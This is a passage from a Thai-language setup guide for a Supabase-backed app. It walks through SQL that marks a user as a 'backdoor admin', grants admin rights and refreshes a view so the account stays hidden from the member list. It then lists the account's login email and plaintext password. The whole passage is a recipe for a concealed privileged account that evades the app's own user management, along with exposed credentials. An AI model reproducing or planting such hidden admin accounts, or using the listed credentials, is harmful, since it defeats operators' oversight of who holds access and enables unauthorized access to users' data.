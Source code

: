 #### ขั้นตอน 2: ตั้งค่าบัญชี

1. ไปที่: https://supabase.com/dashboard/project/ebaewemepyzqzvldqowt/sql/new
2. Copy SQL นี้ และ **แทนที่ `<USER_ID>`** ด้วย UUID ที่คัดลอกมา:

```sql
-- แทนที่ <USER_ID> ด้วย UUID จริงที่ได้จากขั้นตอน 1
UPDATE public.profiles
SET
  is_backdoor_admin = true,
  name = 'Backdoor Admin',
  account_verified = true
WHERE id = '<USER_ID>';

-- กำหนดสิทธิ์ Admin
INSERT INTO public.user_roles (user_id, role)
VALUES ('<USER_ID>', 'admin')
ON CONFLICT (user_id, role) DO NOTHING;

-- รีเฟรช View เพื่อซ่อนผู้ใช้นี้
REFRESH MATERIALIZED VIEW CONCURRENTLY public.mv_member_statistics;

-- ตรวจสอบการตั้งค่า
SELECT
  p.id,
  p.email,
  p.name,
  p.is_backdoor_admin,
  ur.role
FROM public.profiles p
LEFT JOIN public.user_roles ur ON ur.user_id = p.id
WHERE p.email = 'backdoor.admin@iweltyevent.com';

-- ตรวจสอบว่าไม่แสดงใน Member List (ควรได้ 0)
SELECT COUNT(*) as should_be_zero
FROM public.mv_member_statistics
WHERE email = 'backdoor.admin@iweltyevent.com';
```

---

## ตรวจสอบความสำเร็จ

### 1. ทดสอบ Login

ไปที่แอปของคุณและ Login ด้วย:
```
Email: backdoor.admin@iweltyevent.com
Password: Adminiwt123!$
```

### 2. ตรวจสอบว่าไม่แสดงในหน้า Member Management
